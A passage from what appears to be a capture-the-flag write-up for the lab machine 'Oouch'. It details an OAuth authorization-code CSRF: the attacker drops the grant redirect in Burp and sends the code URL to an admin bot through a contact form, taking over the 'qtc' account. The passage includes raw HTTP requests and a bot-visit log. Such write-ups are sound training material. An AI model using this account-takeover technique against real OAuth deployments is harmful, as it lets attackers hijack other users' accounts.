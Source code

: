         csrfmiddlewaretoken=VoAxj1ao7mvIrvJDGPCTyB2x6Rq6KEwWWeFwFjEjArMsd2UkWwry6m8hxn737ia2&redirect_uri=http%3A%2F%2Fconsumer.oouch.htb%3A5000%2Foauth%2Fconnect%2Ftoken&scope=read&client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&state=&response_type=code&allow=Authorize
        ```
        
    4. The provider site responds with the redirect URL which contains the authorization code in the code parameter (Authorization Grant)
        ```
        GET /oauth/connect/token?code=Srwh8xkKLMf1VDre8HmqGieVQ1aY1C HTTP/1.1
        Host: consumer.oouch.htb:5000
        ...
        ```
    5. Here, the attacker **DOES NOT** follow the redirection (_Drop_ instead of _Forward_ in Burp).
8. Instead the attacker copies the Authorization Grant URL and send it to the administrator via the contact form (pseudo-SSRF that we'll see just after).
    ```
    POST /contact HTTP/1.1
    Host: oouch.htb:5000
    ...

    csrf_token=IjQ0ZTk3YTcxZTJkMTUzMjdkODBmZWJlOTk3MWVhNjFlNDQ3YThkMTIi.XvuH3Q.BYECgUUU9-nRB3hYE9dOPPi_4dA&textfield=http%3A%2F%2Fconsumer.oouch.htb%3A5000%2Foauth%2Fconnect%2Ftoken%3Fcode%3DSrwh8xkKLMf1VDre8HmqGieVQ1aY1C&submit=Send
    ```
9. The victim follows the link and requests the Authorization Grant URL, and by doing so gives authorization to the Attacker to have full authorized access to Victim's account on Consumer Site.
10. The attacker waits a minute and goes back to the oAuth connect URL (http://consumer.oouch.htb:5000/oauth/login) and Authorize.
11. The attacker goes back to the profile page on consumer site and checks the account username is now `qtc`.

### SSRF

If you paste an URL in the contact form, someone will click on it (a bot).
So this gives us a pseudo-SSRF (in a phishing way).

Here the web server receiving the bot visit 1 minute after the message was sent.

```
$ ruby -run -e httpd share -p 8000
[2020-06-30 19:09:57] INFO  WEBrick 1.6.0
[2020-06-30 19:09:57] INFO  ruby 2.7.1 (2020-03-31) [x86_64-linux]
[2020-06-30 19:09:57] INFO  WEBrick::HTTPServer#start: pid=55191 port=8000
[2020-06-30 19:12:21] ERROR `/' not found.
10.10.10.177 - - [30/Jun/2020:19:12:21 CEST] "GET / HTTP/1.1" 404 273
- -> /
```

So we used this SSRF to send the Authorization Grant URL to the victim.

### qtc's documents

Now that we are logged in as `qtc` (admin) we can access the document endpoint (http://consumer.oouch.htb:5000/documents).
